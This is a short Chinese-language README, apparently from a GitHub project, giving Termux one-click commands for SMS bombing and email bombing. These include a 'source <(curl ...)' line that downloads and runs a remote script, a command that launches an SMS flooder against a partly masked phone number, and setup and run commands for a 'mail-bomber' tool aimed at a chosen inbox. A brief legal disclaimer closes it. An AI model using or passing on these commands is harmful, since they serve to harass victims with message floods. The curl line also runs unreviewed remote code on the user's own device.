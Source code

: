 # 概述
  

- 如果你还没有下载termux可以点击[这里](https://f-droid.org/en/packages/com.termux/)


- 假如你在代码使用的过程中出现类似于的选项。
>Do you want to continue? [Y/n]
>
- 直接回车enter即可

免费AI chatgpt o3 [这里](https://chat01.ai/?ref=AH4NeCmB/)


# 一键代码使用
   ## 短信轰炸
  
  `source <(curl -L https://raw.githubusercontent.com/cat-bucket/cat-osint/main/sms.txt)`
- 直接粘贴代码进入即可，后续可以直接使用下列指令（不要更新接口）

- 基本版
  `cd cat-osint;python easy.py`
  
- 不同参数（同原版smsboom）
  `cd cat-osint;python main.py run -t 64 -p 184****9269 -f 60 `

  ## 邮箱轰炸
  
  在使用之前配置
  
 `pkg install git -y && pkg install php -y && pkg install python -y && git clone https://github.com/cat-bucket/mail-bomber && cd mail-bomber
`
 

### 无需邮箱但无法指定内容
   
更新接口（可选）

`php index.php update-nodes`

后续使用

`cd mail-bomber;php index.php start-bombing 邮箱`

替换要轰炸的邮箱




# 免责声明
本库为对各种程序的简单调用提供，仅供参考，禁止用于商业及非法用途。使用一键指令可能造成的事故与损失，短信轰炸并不安全，警遵中国法律。


